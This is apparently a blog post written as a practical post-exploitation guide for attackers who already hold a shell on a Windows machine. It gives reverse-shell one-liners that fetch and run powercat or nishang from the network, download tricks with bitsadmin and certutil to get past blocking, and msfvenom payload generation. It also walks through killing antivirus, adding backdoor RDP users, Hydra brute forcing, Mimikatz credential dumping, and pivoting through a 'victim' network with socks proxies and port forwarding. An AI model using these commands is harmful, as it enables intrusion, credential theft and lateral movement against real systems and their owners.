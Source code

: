 ```yaml
---
title: After Getting The Shell
date: 2018-11-02 11:55:13
categories: Hacking
tags: [PowerShell, Metasploit]
description: It seems that it's getting more and more popular that everyone would like to scan the whole intranet when he takes down one of the other people's machines. So what to do next after getting the shell of a windows system? Some ideas about that. 
---
```


Here give two methods to trigger a windows reverse shell with PowerShell, remember to bypass the PowerShell security policy before you execute PowerShell command. (https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)

For attacker:
```shell
nc -lvp 6666
```

For target:
```shell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');
powercat -c x.x.x.x -p 6666 -e cmd
```
```shell
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress x.x.x.x -port 6666
```

Sometimes the protection system on the server will block PowerShell from downloading anything, there are two tools to help you:
```shell
bitsadmin /transfer myDownloadJob /download /priority normal http://downloadsrv/10mb.zip c:\10mb.zip
```
```shell
certutil -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
```

Most of the time you will face three situations:

### You don't have administrator privilege, but there is no protection system.
If you're lucky enough, there's no anti-virus software in the system, you can trigger a reverse Metasploit shell in any method you like:
In an easy way:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f exe > a.exe
```
All you need to do is uploading the payload and execute it. When it comes to the question of how to upload the payload, the answer is that you must forward your local port to the public network with the help of FRP(https://github.com/fatedier/frp) which is a powerful tool, and you must have a VPS to achieve that. Even if you don't have a VPS, you can use ngrok to make it work.

### There is protection system in the server, but you have administrator privilege.
If you're not so lucky, maybe you should find some methods such as veil-evasion to obfuscate your payload. In worse situation, your payload which has been obfuscated was deleted by the antivirus as well. you'd better consider killing the process of the antivirus.

Sometimes it's not easy to kill the process of antivirus, you can just log into the system by the remote desktop protocol. The first step is to add a new user to the system:

```shell
net user Name Pass /add
```
Then you should add this user to the allowed rdp accounts from the commandline:

```shell
net localgroup "Remote Desktop Users" domain\user /add
```

If you want to add a non-domain user, it's easier:

```shell
net localgroup "Remote Desktop Users" user /add
```
But you cannot do crazy things with this account, but you can identify which protection system the server use and shutdown it or bypass it. It's not done yet if you want to execute some high-privilege command, privilege escalation could be taken into consideration.

Hydra is a powerful tool if you have a powerful wordlist:
```shell
hydra x.x.x.x rdp -L users.txt -P wordlist.txt -v
```
Mimikatz is also a good choice to dump the username and password from memory of the server. But most of the time mimikatz will be killed by the protection system.

### You don't have the administrator privilege, and the server has a protection system.

Shutdown your computer and go to sleep. Don't think about it.

---

There are some ways to help you to go deep and you can treat your victim as a pivot to find out more vulnerable hosts within the intranet.

Firstly you can use the socks5 module in meterpreter:

```shell
use anxiliary/server/socks5
set srvhost 127.0.0.1
set srvport 1080
run
```
Or you can use EarthWorm(http://rootkiter.com/EarthWorm/) to forward the victim machine's port to your VPS and use proxy
chains or proxifier in your local machine:
For your VPS:
```shell
./ew -s rcsocks -l 1080 -e 1024
```
The command above means your VPS listens the port 1080, 1024  and waits for attacker connect to the port 1080, the victi
m connects to the port 1024.

For target:
```shell
ew.exe -s rssocks -d x.x.x.x -e 1024
```
The argument -d is the IP address of your VPS.

If it's Linux in your local machine, you can use proxychains to set the socks5 proxy.
Getting proxychains installed:
```shell
apt install proxychains-ng 
```
Add the following content in the /etc/proxychains.conf file:
```shell
socks5 127.0.0.1 1080
```
Then you can use socks proxy to scan the victim's intranet:
```shell
proxychains4 nmap -sT -Pn -open 192.168.100.1/22
```
I have tried so many times to find out all the machines in the victim's intranet but I was usually failed. It just works for few times and the process is too slow. Maybe nmap is the reason for this problem, it works well when I use proxychains to get information from other hosts within the same intranet.

You can also use the msf built-in module to scan:
```shell
auxiliary/scanner/portscan
scanner/portscan/syn
scanner/portscan/tcp
```
If you need ports forwarding, it's also available in meterpreter:
```shell
meterpreter> portfwd add -l 55555 -r 192.168.1.1 -p 3306
```
Another popular tool is lcx.exe:
For attacker:
```shell
lcx -listen 2222 3333
```
For target:
```shell
lcx -slave x.x.x.x 2222 127.0.0.1 3389
```

